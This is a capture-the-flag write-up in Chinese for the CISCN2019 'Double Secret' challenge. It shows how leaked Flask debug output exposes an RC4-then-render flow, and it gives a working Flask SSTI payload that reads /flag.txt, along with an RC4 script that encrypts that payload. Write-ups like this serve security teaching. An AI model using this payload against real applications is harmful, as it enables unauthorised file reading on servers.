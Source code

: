 # \[CISCN2019 华东南赛区]Double Secret

## \[CISCN2019 华东南赛区]Double Secret

## 考点

* Python代码审计
* rc4加解密
* flask debug
* flask SSTI

## wp

靶机只提示`Welcome To Find Secret`

尝试访问`secret`，提示

> Tell me your secret.I will encrypt it so others can't see

那再去传参`secret?secret=1`，返回`d`

传参`secret?secret='`，返回`r`

我传`/secret?secret=''''''`直接报错了

可以看到一部分代码

```python
if(secret==None):
  return 'Tell me your secret.I will encrypt it so others can\'t see'

rc=rc4_Modified.RC4("HereIsTreasure")   #解密
deS=rc.do_crypt(secret)

a=render_template_string(safe(deS))

if 'ciscn' in a.lower():
  return 'flag detected!'
return a
```

传个中文`secret?secret=啊`也看到了一部分代码

```python
  r = (self.Box[self.index_i] + self.Box[self.index_j]) % 256
  R = self.Box[r] # 生成伪随机数
  tmp=ord(s)^R
  test.append(tmp)
  out.append(chr(tmp))
#print(test)
#print(len(test))
return ''.join(out)
```

第一段代码是对传入的secret参数加密，然后用render\_template\_string渲染返回，这里就是SSTI了

第二段就是加密算法的代码了

pycryptodome库已经实现了rc4，可以直接拿来用

```python
from Crypto.Cipher import ARC4
from urllib import parse

# p = b"'"
p = b'1'
key = b'HereIsTreasure'
cipher = ARC4.new(key)

c = cipher.encrypt(p)
print(parse.quote(c))
# b'r'
# b'd'
```

可以看到结果是都符合的

但是问题是，用pycryptodome库的rc4加密的结果和wp是不一样的，就很奇怪

<mark style="background-color:orange;">对于</mark><mark style="background-color:orange;">`{{7*7}}`</mark><mark style="background-color:orange;">用pycryptodome的库加密后的密文是</mark><mark style="background-color:orange;">`.%14%0E%1F%FD%1A%16`</mark>

<mark style="background-color:orange;">wp的脚本加密结果是</mark><mark style="background-color:orange;">`.%14%0E%1F%C3%BD%1A%16`</mark>，可能是因为题目对RC4做了修改，从源码泄露可以看到有个`rc4_Modified.py`文件

看了一下wp，都是从网上找rc4的脚本，然后再按照SSTI的思路做就可以了。

```python
File "/app/rc4_Modified.py", line 43, in do_crypt
    r = (self.Box[self.index_i] + self.Box[self.index_j]) % 256
    R = self.Box[r] # 生成伪随机数
    tmp=ord(s)^R
    test.append(tmp)
    out.append(chr(tmp))
  #print(test)
  #print(len(test))
  return ''.join(out)
```

对payload进行rc4加密

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag.txt').read()}}
```

rc4加密脚本

```python
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    print("加密后的字符串是：%s" %quote(cipher))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag.txt').read()}}")
```

题目rc4源码

```python
# -*- coding: utf-8 -*-
class RC4:
    def __init__(self,public_key = None):
        if not public_key:
            public_key = 'none_public_key'
        self.public_key = public_key
        self.index_i = 0
        self.index_j = 0
        self._init_box()

    def _init_box(self):
        """
        初始化 置换盒
        """
        self.Box = [i for i in range(256)]
        key_length = len(self.public_key)
        j = 0
        for i in range(256):
            index = ord(self.public_key[(i % key_length)])
            j = (j + self.Box[i] + index ) % 256
            self.Box[i],self.Box[j] = self.Box[j],self.Box[i]
        # for i in range(256):


    def do_crypt(self,string):
        """
        加密/解密
        string : 待加/解密的字符串
        """

        out = []
        test=[]
        #print(len(string))
        for s in string:
            self.index_i = (self.index_i + 1) % 256
            self.index_j = (self.index_j + self.Box[self.index_i]) % 256
            self.Box[self.index_i], self.Box[self.index_j] = self.Box[self.index_j],  self.Box[self.index_i]

            r = (self.Box[self.index_i] + self.Box[self.index_j]) % 256
            R = self.Box[r] # 生成伪随机数
            tmp=ord(s)^R
            test.append(tmp)
            out.append(chr(tmp))
        #print(test)
        #print(len(test))
        return ''.join(out)
```

